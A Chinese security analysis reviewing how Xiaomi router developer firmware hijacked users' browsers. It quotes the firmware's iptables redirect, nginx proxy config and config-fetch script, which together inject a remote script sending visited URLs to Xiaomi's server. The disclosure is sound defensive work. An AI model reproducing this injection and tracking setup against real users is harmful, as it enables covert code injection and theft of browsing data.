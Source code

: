 # 小米路由器劫持用户浏览器事件回顾

0x00 概述
=====

小米路由器开发版固件（并非稳定版固件，不会影响大多数用户，如果你不明白这是什么意思，它不会影响到你）使用黑客技术劫持用户浏览器向用户投送广告，该技术在黑客界广泛用于偷取用户密码甚至可能控制用户电脑和手机，目前小米已经回应该事件，称该事件为“借机炒作恶意煽动”，并解释“所谓的广告”是友好的新功能提示。目前小米官方已经做出相应调整，该功能已经暂时失效。

![ad](http://drops.javaweb.org/uploads/images/1d4483edd5056c8d13c5d07b2ce496a4fdb1c8d2.jpg)

2015年6月初，有用户举报说最新开发版（2.3.31）的小米路由器固件劫持了用户浏览器，在用户完全不知情的情况下向浏览器发送广告代码并执行，本文以官方提供下载的2.3.5版本进行代码分析，论证其功能的技术实现以及可能影响，并对照小米官方微博的声明进行技术核对和解释。

0x01 用户举报
=====

在V2EX上由用户反映在通过小米路由器浏览网页时，网页被注入了JS代码，而这段代码目前还只是被用来显示广告。[《小米路由器先劫持 http 错误码, 现在又在部分网站添加小尾巴, 什么节奏?》](https://www.v2ex.com/t/199701)这意味着你在完全不知情的前提下，你看到的所有内容其实都受小米路由器的控制，这段代码可以被用来显示广告，也可以偷取你的密码，可以随便修改任何网页的内容来欺骗你，甚至如果你的浏览器有漏洞的话，小米路由器还可能会控制你的电脑或手机。

0x02 原理分析&代码分析
=====

在代码分析之前概述一下：简单说，他是一个路由器，你通过它来上网，你把数据先交给它，然后它才把数据通过网线送出你家，而小米路由器对你交给它的数据做了手脚，不仅看了，还修改了。 以下代码来自官方网站提供下载的2.3.5版本，使用binwalk解压固件fs，再分析得到的代码

[http://bigota.miwifi.com/xiaoqiang/rom/r1cm/miwifi_r1cm_firmware_7054f_2.3.5.bin](http://bigota.miwifi.com/xiaoqiang/rom/r1cm/miwifi_r1cm_firmware_7054f_2.3.5.bin)

下面为/lib/firewall/rr.loader第20行：

```
iptables -t nat -A "$1" -m set --match-set "rr_tb" dst -p tcp -j REDIRECT --to-ports 8380

```

在转发用户数据包之前把所有rr_tb列表里面目的为80端口的tcp数据包重定向至8380端口，这个是dnsmasq+ipset从小米服务器上获取的域名ip

下面为/etc/sysapihttpd/sysapihttpd.conf第384行：

```
miwifi_toolbar_config miwifi_toolbar_zone 500K "RR_PATH_STUB";
server {
    listen 8380;
    resolver localhost;
    location / {
        set $device_id "DEV_ID_STUB";
        set $rom_version "ROM_VERSION_STUB";
        set $hardware "DEV_MODEL_STUB";
        set $channel "CHANNEL_STUB";
        include "/tmp/rr/footer";
        miwifi_toolbar miwifi_toolbar_zone;
        proxy_pass $scheme://$host$request_uri;
        proxy_ignore_client_abort off;
        proxy_connect_timeout 30s;
        proxy_read_timeout 30s;
        proxy_send_timeout 30s;
        proxy_buffering off;
        proxy_set_header Accept-Encoding '';
        proxy_max_temp_file_size 0;
        proxy_set_header Host $http_host;
    }
}

```

其实sysapihttpd就是nginx，监听8380端口，做了一个反向代理（用在本地相当于透明代理），插入了/tmp/rr/footer代码（RR_PATH_STUB），至于什么是反向代理，请参考乌云知识库之前的文章[《钓鱼？这是反代理！》](http://drops.wooyun.org/tips/6570)，那么，这个/tmp/rr/footer是哪里来的呢？

下面为/usr/bin/pull-req-rule第22行：

```
create_url() {
    local ts=${1:-0}
    local device_id=$(matool --method deviceID)
    local rom=$(uci -q -c /usr/share/xiaoqiang get xiaoqiang_version.version.ROM)
    local hardware=$(uci -q -c /usr/share/xiaoqiang get xiaoqiang_version.version.HARDWARE)
    local channel=$(uci -q -c /usr/share/xiaoqiang get xiaoqiang_version.version.CHANNEL)
    local url="http://api.miwifi.com/rr/config"
    echo $url'?'ts=$ts'&'device_id=$device_id'&'rom=$rom'&'hardware=$hardware'&'channel=$channel
}

extract_footer() {
    local footer_file="$rr_prefix/footer"
    local footer=$(cat $content_file | grep '^footer' | cut -d$'\t' -f 2)
    echo "miwifi_toolbar_template \"$footer\";" > $footer_file
}

```

第一个函数是配置文件的地址，第二个函数是将配置文件中的广告代码放进上文所说的文件中 之后我们根据url的生成规则去看一眼这个config文件：

http://api.miwifi.com/rr/config?ts=1&device_id=0&rom=2.3.31&hardware=miwifi&channel=0

```
ts  1
footer  <script src=\"http://api.miwifi.com/toolbar?device_id=${device_id}&host=${host}&uri=${uri}&rom=${rom_version}&hardware=${hardware}&channel=${channel}\"></script></body></html>
exclude_suffix  .css|.js|.jpeg|.png|.gif|.ico
rule_count  0   0

```

我们可以清晰的看到，这段代码是加载了一个来自api.miwifi.com的js代码文件，换句话说，这个文件里的代码你会无条件的直接执行，无论它是偷密码的，还是发广告的。 而规则已经被小米官方清空，这也意味着不再向任何域名投放广告，但是这仅仅意味着小米服务器指示你的路由器不再JS注入，但小米可以任意时间通过修改这个api.miwifi.com上的控制文件来重新指示你的路由器做JS注入，而你到时候完全不会知道发生了什么

而在小米作出相应调整之前，有网友记录的config文件内容为（原地址[http://pastebin.com/4t7eKNsA](http://pastebin.com/4t7eKNsA)）：

```
ts      1434688147041
footer  <script src=\"http://api.miwifi.com/toolbar?device_id=${device_id}&host=${host}&uri=${uri}&rom=${rom_version}&hardware=${hardware}&c
hannel=${channel}\"></script></body></html>
exclude_suffix  .css|.js|.jpeg|.png|.gif|.ico
rule_count      845     845
rule    67a.cn  1       0
w_rule  /       *       l       t
rule    lizhidy.com     1       0
w_rule  /       *       l       t
rule    hacg.be 1       0
w_rule  /       *       l       t
…………………省略……………………

```

这里的rule是指投放JS代码的域名列表，只要在这个列表里，访问时就会注入JS，形象的比喻：小米具有定向打击的能力，它能在任意时间，任意域名下给你投放任意代码，小米官方称这只是友好的新功能提示，网上炒作都是恶意抹黑，然而现在显而易见的是【小米对这段代码有绝对的控制权，友好不友好都是受小米控制的，代码内容是广告还是木马到头来完全听从小米的，而你上网时必须听从这段代码指挥】![jsinj](http://drops.javaweb.org/uploads/images/8393124143abe46936a3b9843159135947fb66f8.jpg)该代码是一个动态代码，实时从小米官方服务器上获取指令执行，用户无法干预该指令的执行，并且无法得知该指令的存在![00004](http://drops.javaweb.org/uploads/images/d02a9b8b420f2197b590640e4ee537861f744bed.jpg)这就是所谓的广告代码，小米对该代码有绝对控制权，可以在任意时间投放任意代码给用户执行

0x03 到底广告友好不友好
=====

再看看上文小米路由器插入的广告代码，不看不要紧，一看吓一跳：

```
<script src=\"http://api.miwifi.com/toolbar?device_id=${device_id}&host=${host}&uri=${uri}&rom=${rom_version}&hardware=${hardware}&channel=${channel}\"></script>

```

host是你访问的网站，uri是你访问网站时浏览的页面【以及你提交的GET查询数据】，该数据可能包含你的账号名称、身份标识，换句话说就是你在网页里输入的东西都有可能被发往小米官方服务器，你看到什么，小米官方就能看到什么。技术上讲，你在访问网页时被跟踪了，这段代码执行时不仅仅是显示广告，而且通俗的讲就是把你浏览器地址栏里面的内容全都发送到了小米服务器上。

![0003](http://drops.javaweb.org/uploads/images/b9cc767b19407a8593c4e789ee0eee5e7f14da99.jpg)

从网友提供的图片可以看到，网友正在浏览的网页地址http://movie.douban.com/subject/25718082被小米路由器主动上交给了小米官方服务器（因为该网页并不包含特别机密信息，且网友已经公开本图片，请允许我在此公开该网页地址，请该网友见谅，话说你咋喜欢看这种电影呢，嘻嘻嘻~）

0x04 总结
=====

![005](http://drops.javaweb.org/uploads/images/97ac4d3b353e3495f650bdb8f9728ee272244002.jpg)

1.  小米官方称“开发版试水”情况属实，并不会影响到正常使用稳定版的用户
2.  小米官方称“已经作出相应调整”情况属实，临时取消JS注入域名清单（取消注入）
3.  网友所说的JS注入情况属实，并且并非静态JS，而是小米服务器上的动态JS
4.  网友所说的浏览器劫持情况属实，官方所说手机APP能够关闭404页面情况属实，但是这个功能默认是开着的，需要手动关闭
5.  小米官方称“炒作”情况属实，首先用户在反馈时忘记注明是开发版固件，因此使用的并不是普通用户的稳定版功能，而媒体并没有解释“开发版”的含义，盲目大力渲染“劫持、注入”的危害，给用户造成了片面印象，【小米对手动安装了开发版固件的无辜用户做了劫持和JS注入，但还没有在全国强推该计划】
6.  小米官方称“友好的新功能提示”不实，该代码将用户的浏览信息上传至小米服务器（具体来说，你看的每一个网页地址，某些情况下可能包含用户名、密码）
7.  404页面劫持会泄露用户浏览的网页地址情况属实，但是一般来说这不会泄露个人隐私，另外404也有开关了，因此不再讨论

个人观点：小米路由器开发版设计的浏览器劫持、JS代码注入功能性质恶劣，严重侵犯了用户的隐私权，甚至将来有可能借此入侵用户的计算机与手机，并且所插入的JS代码确实将用户的隐私信息（浏览器访问网站的地址及部分用户输入的内容）窃取至小米服务器，已经可以定性为后门程序。然而开发版意味着该功能只是技术尝试，并未给普通用户造成实际影响，因此虽然性质恶劣但是目前影响并不大。我认为小米有意将木马程序推送给全国用户，暂时先在开发版里试一下水，如果不被发现就继续这么干下去了，现在被发现之后轻描淡写称开发版是逗你们玩儿的。想起之前大量discuz论坛被黑的事件，域名被劫持加上恶意代码，导致使用discuz论坛的站长在登录后台之后执行了恶意代码自己论坛被黑：http://tech.163.com/09/0108/15/4V55DUGA000915BF.html